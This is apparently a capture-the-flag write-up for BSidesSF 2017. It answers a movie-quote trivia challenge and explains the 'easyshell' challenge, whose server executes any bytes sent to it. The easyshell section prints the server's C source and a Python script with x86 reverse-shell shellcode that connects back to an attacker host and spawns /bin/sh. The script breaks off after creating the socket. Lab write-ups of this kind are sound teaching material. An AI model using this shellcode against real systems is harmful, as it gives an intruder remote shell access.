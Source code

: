 ## Quote

> This movie featured the memorable phrase "My voice is my passport".

The flag is `Sneakers`. This is a quote from the famous 1992 movie *Sneakers* in which a group of hackers break into a corporation's headquarters by piecing together a technicians voice to construct his voiceprint biometric passphrase.

## easyshell

> The server will run any code you send it. Easy peaasy!  
> The flag is in /home/ctf/flag.txt  
> nc easyshell-f7113918.ctf.bsidessf.net 5252  
> [easyshell.zip](/assets/bssf2017/easyshell.zip)

Upon examining the source code of the easyshell program it becomes clear that whatever is sent to the program will be read into a buffer and executed using the `asm()` C/C++ function used to embed and execute assembler instructions.

```
int main(int argc, char *argv[])
{
  uint8_t *buffer = mmap(NULL, LENGTH, PROT_READ | PROT_WRITE | PROT_EXEC, MAP_ANONYMOUS | MAP_PRIVATE, 0, 0);
  ssize_t len;

  alarm(10);

  disable_buffering(stdout);
  disable_buffering(stderr);

  printf("Send me stuff!!\n");
  len = read(0, buffer, LENGTH);

  if(len < 0) {
    printf("Error reading!\n");
    exit(1);
  }

  asm("call *%0\n" : :"r"(buffer));

  return 0;
}
```

After experimenting with different kinds of shellcode I decided that a reverse connection was the appropriate approach. I did some googling around and found [this shell code](http://shell-storm.org/shellcode/files/shellcode-833.php), and then wrote a small python script to send it.

```
#!/usr/bin/env python

import socket

remote_host = 'easyshell-f7113918.ctf.bsidessf.net'
remote_port = 5252

local_host = "\xc6\xc6\xc6\xc6" # IP
local_port = "\xd9\x03"         # 55555 (Port)

shellcode = "\x68" + local_host + "\x5e\x66\x68" + local_port + "\x5f\x6a\x66\x58\x99\x6a\x01\x5b\x52\x53\x6a\x02\x89\xe1\xcd\x80\x93\x59\xb0\x3f\xcd\x80\x49\x79\xf9\xb0\x66\x56\x66\x57\x66\x6a\x02\x89\xe1\x6a\x10\x51\x53\x89\xe1\xcd\x80\xb0\x0b\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\xeb\xce"

client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
```